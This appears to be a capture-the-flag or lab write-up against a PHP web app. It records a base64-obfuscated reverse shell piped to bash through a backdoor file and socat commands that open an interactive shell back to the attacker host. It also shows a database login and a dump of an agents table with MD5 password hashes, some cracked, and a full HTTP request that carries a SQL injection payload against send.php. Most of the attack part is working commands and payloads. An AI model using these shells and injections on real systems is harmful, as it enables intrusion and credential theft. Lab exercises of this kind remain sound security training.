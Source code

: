 [+] File `/test.php` exists!

echo 'c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE4LjAuMS8xMjM0IDA+JjEK' | base64 -d | bash

url encode and sent to backdoor

[+] Reverse shell obtained

switch to interactive shell:

Victim -> `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:172.17.0.1:4444`

Local 

```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

`mysql -h 127.0.0.1 -uadmin -pdbpassword -D niadb`


```
MariaDB [niadb]> select * from agents;
+------+-----------------+----------------------------------+
| id   | username        | password                         |
+------+-----------------+----------------------------------+
|    7 | tizio.incognito | 5ebe2294ecd0e0f08eab7690d2a6ee69 (secret) |
|    8 | jackOfspade     | 617882784af86bff022c4b57a62c807b |
|   10 | agentX          | b20e0aaa66fdd9a7a5b2ebf49d32b91b |
|   42 | utente          | bed128365216c019988915ed3add75fb (passw0rd)|
| 1337 | sysadmin        | fcea920f7412b5da7be0cf42b8c93759 (1234567)|
+------+-----------------+----------------------------------+
```


## `Send.php` -> Sql injection

```
POST /send.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 62
Cache-Control: max-age=0
sec-ch-ua: "Not.A/Brand";v="99", "Chromium";v="136"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: it-IT,it;q=0.9
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/send.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=ee5875f3660d048db3ac7065cee0dbad
Connection: keep-alive

agent=test','test',(SELECT+user()))+--+a&title=we&message=aaaa
```
